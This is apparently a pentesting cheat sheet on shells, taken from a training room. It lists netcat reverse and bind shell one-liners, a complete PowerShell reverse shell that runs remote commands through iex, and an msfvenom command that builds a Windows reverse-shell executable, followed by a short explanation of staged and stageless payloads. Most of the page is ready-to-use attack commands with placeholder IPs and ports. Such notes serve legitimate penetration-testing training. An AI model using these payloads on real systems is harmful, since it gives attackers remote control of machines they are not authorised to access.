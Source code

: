 ```
nc -nlvp <port> -e /bin/bash
# rev shell on target
nc <LOCAL-IP> <PORT> -e /bin/bash   

# linux bind shell
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# netcat rev shell
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

```

Windows Powershell reverse shell
- change `('<ip>', <port> ) `
- `sudo nc -nlvp 443`
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>', <port> );$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## msfvenom 

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

```
msfvenom -p <payload> <options>

#-- windows x64 rev shell
-f           format (exe)
-o           output location
LHOST=<ip>   your/attacker IP
LPORT=<port> your/attacker port

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```


### Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: _**staged**_ reverse shell payloads and _**stageless**_ reverse shell payloads.

- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
